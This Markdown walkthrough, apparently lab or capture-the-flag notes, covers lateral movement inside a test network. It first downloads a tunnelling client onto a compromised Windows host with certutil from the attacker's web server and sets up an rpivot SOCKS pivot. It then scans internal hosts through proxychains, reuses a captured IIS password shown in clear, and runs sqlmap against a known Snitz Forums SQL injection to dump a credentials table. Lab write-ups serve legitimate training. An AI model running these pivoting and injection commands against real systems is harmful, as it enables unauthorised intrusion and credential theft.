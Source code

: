 # Lateral Movement 1

- [Lateral Movement 1](#lateral-movement-1)
  - [Neighbor discovery](#neighbor-discovery)
  - [Proxy using rpivot](#proxy-using-rpivot)
  - [Enumeration](#enumeration)
  - [10.1.3.1 - Gitlab / Jenkins](#10131---gitlab--jenkins)
  - [10.1.3.2 - Snitz Forums](#10132---snitz-forums)

----

## Neighbor discovery

On the Scientist machine, do a `arp` to discover the neighbour:

```
arp -a
```

![picture 28](images/6f3745a7e9de4b5df226dab4540ce0524b58902faa94351e73d9b9133e427b5a.png)  

<br/>

## Proxy using rpivot

On the attacker machine, first clone the repo:

```
git clone https://github.com/klsecservices/rpivot.git
```

Also download the rpivot Windows client executable:

```
cd /usr/share/rpivot/ && wget https://github.com/klsecservices/rpivot/releases/download/v1.0/client.exe
```

![picture 23](images/69e0242b39fb852b687d019571ff77e87b48682fc608be5661dfc5783cd8abcc.png)  

<br/>

Serve `client.exe` using python http server and download it from the Scientist machine:

```
# Attacker
python3 -m http.server 80
```

```
# Scientist machine
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe
```

![picture 24](images/9cfcd47851566013075f1e860e8ebbac5825adcfee02864665e22016ba763e49.png)  


<br/>

On the attacker machine, launch a rpivot server:

```
python server.py --server-port 8080 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

Then on the Scientist machine, connect to the rpivot server:

```
client.exe --server-ip 192.168.100.11 --server-port 8080
```

![picture 25](images/7e53d48f497bcadb6162d0fa995054cc4027390e8dad4b9d52913e50588280fe.png)  

![picture 26](images/b6f3223437bec6aeca2571b4d4342092165aa8c602c00302bef65da249ee9eed.png)  

<br/>

Modify `/etc/proxychains.conf` to let it use SOCK4 proxy on port 9051:

![picture 27](images/9bbb14e76912c64a077fbfd3fd4a186cb211f6378387c6ec730ffa8f286d54e8.png)  

<br/>

## Enumeration

Use `proxychains` with `nmap` to enumerate the hosts discovered by `arp`:

```
proxychains nmap -Pn -sT 10.1.3.1-2 -p 22,139,80 --min-rate 10000
```

![picture 29](images/2092306e9323966b62b7ac4d2ad1c64b52854be08e9a1aba033c1036becfbb39.png)  

<br/>

## 10.1.3.1 - Gitlab / Jenkins

Refer to Path 1

<br/>

## 10.1.3.2 - Snitz Forums

Use firefox with foxyproxy pointing to SOCK4 proxy on tcp/9051:

![picture 30](images/7ebb48e1600dc3680de1b4655b5ea2004074b912773850b99196061f6e3ef86b.png)  

Use the obtained IIS credential:
`iisadmin` \ `Head!!S%$#@!`

![picture 31](images/4b0f1b05208ffcd5d1b5149b0b5ca5aa72bc4359deb8dab8f2a48be6d95692d1.png)  

![picture 32](images/d319517e43ca033bb25895c312302828afed15dbb337df1d1af0b5612c9b21be.png)  

* Web App Version:  Snitz Forums 2000 Version 3.1 SR4

<br/>

This particular version is known to have an SQL injection exploit:

- https://www.exploit-db.com/exploits/3321

<br/>

With the valid header, use `sqlmap` to exploit. First list the available databases:

![picture 33](images/ac442fee8d3237c60b03520385cccb7d3ffc8eb00fed062bb4c63df58a48a218.png)  


```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U --dbs
```

![picture 34](images/39c7b6a8694264f90257b215c952a13a6600b00f4de9f64567e683f15d811b55.png)  

<br/>

Check the tables in the DB `Sensitive-DB`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB --tables
```

![picture 35](images/256780fc91bceab6687128a4577a4185ffa818d5bd9508aeda0f5fe1e1ef8a71.png)  

<br/>

Check the table `Creds`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB -T Creds --dump
```
